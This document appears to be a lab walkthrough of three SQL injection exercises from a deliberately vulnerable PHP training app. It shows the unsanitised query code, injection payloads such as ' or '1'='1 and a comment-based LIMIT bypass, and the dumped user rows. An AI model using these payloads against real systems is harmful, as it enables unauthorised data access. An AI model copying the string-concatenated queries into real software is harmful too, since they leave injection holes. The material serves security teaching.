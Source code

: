 # Vulnerable Code 1

This code fetches "first_name" and "last_name" of a user with given "user_id"

```php
<?php

if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}

?> 
```

## Abuse

Since there is no input sanitation for user input, we can sent a payload that didnt expected and get all data from database.

## Payload

```php
' or '1'='1
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1';
```

## Result

```php
ID: ' or '1'='1
First name: admin
Surname: admin

ID: ' or '1'='1
First name: Gordon
Surname: Brown

ID: ' or '1'='1
First name: Hack
Surname: Me

ID: ' or '1'='1
First name: Pablo
Surname: Picasso

ID: ' or '1'='1
First name: Bob
Surname: Smith
```

# Vulnerable Code 2
This code fetches "first_name" and "last_name" of a user with given "user_id"

```php
<?php

if( isset( $_POST[ 'Submit' ] ) ) {
    // Get input
    $id = $_POST[ 'id' ];

    $id = mysqli_real_escape_string($GLOBALS["___mysqli_ston"], $id);

    $query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query) or die( '<pre>' . mysqli_error($GLOBALS["___mysqli_ston"]) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Display values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

}

// This is used later on in the index.php page
// Setting it here so we can close the database connection in here like in the rest of the source scripts
$query  = "SELECT COUNT(*) FROM users;";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );
$number_of_rows = mysqli_fetch_row( $result )[0];

mysqli_close($GLOBALS["___mysqli_ston"]);
?> 
```


## Abuse

In this code, the id parameter is not inside of apostrophe character so payload will be without it

## Payload

```php
1 or 1=1
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id=1 or 1=1;
```


## Result

```php
ID: 1 or 1=1
First name: admin
Surname: admin

ID: 1 or 1=1
First name: Gordon
Surname: Brown

ID: 1 or 1=1
First name: Hack
Surname: Me

ID: 1 or 1=1
First name: Pablo
Surname: Picasso

ID: 1 or 1=1
First name: Bob
Surname: Smith
```


# Vulnerable Code 3

This code fetches "first_name" and "last_name" of a user with given "user_id" and limit result to 1 dataset only.


```php
<?php

if( isset( $_SESSION [ 'id' ] ) ) {
    // Get input
    $id = $_SESSION[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query ) or die( '<pre>Something went wrong.</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);        
}

?> 
```

## Abuse

In this code there is "Limit 1" at the end of sql query which means we cant get all database like code-1 and code-2. To abuse this code, we will use the same logic in code-1 but also will add "-- -" to make comment rest of the query. 

## Payload

```sql
1' or '1'='1'; -- -
```

Query that reaches to the database (mysql) will be:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '1' or '1'='1'; -- -' LIMIT 1;
```

## Result

```php
ID: 1' or '1'='1'; -- -
First name: admin
Surname: admin

ID: 1' or '1'='1'; -- -
First name: Gordon
Surname: Brown

ID: 1' or '1'='1'; -- -
First name: Hack
Surname: Me

ID: 1' or '1'='1'; -- -
First name: Pablo
Surname: Picasso

ID: 1' or '1'='1'; -- -
First name: Bob
Surname: Smith
```